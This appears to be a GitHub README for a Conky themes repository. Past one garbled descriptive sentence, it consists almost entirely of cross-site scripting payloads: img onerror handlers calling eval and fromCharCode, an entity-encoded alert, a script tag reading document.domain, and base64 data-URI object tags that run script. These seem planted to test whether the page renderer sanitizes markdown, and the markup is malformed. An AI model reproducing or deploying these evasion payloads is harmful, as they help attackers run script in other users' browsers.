 <img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
conky themes for Linux it wery usefull for Network Administrators and so on...
"<p><script type="text/javascript"" src="https://github.com/Gra8-Git/Conky_themes/blob/master/README.md/<script>alert(document.domain);   </script>"</p>"
<img src="#<script>alert(1);</script>" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
